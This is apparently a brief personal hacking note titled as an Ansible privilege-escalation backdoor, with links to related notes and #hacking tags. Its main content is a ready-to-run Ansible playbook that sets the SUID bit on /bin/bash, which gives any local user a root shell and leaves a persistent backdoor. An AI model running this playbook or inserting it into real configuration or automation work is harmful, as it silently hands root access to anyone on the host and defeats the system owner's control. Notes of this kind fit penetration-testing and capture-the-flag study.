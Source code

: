 # ansible exploiting playbook priv esc backdoor
```yaml
- name: "whatever"
  hosts: localhost
  connection: local
  tasks:
    - name: "whatever"
      shell: "chmod +s /bin/bash"
      register: "output"
```

` zet/20221003150336/README.md `

# Related

- [20221007220451](/zet/20221007220451/README.md) hacking notes node

- [20221003150338](/zet/20221003150338/README.md) ansible exploiting playbook
- ~/kb/hacking/misc/ansible.md

Tags:

    #hacking #ansible 
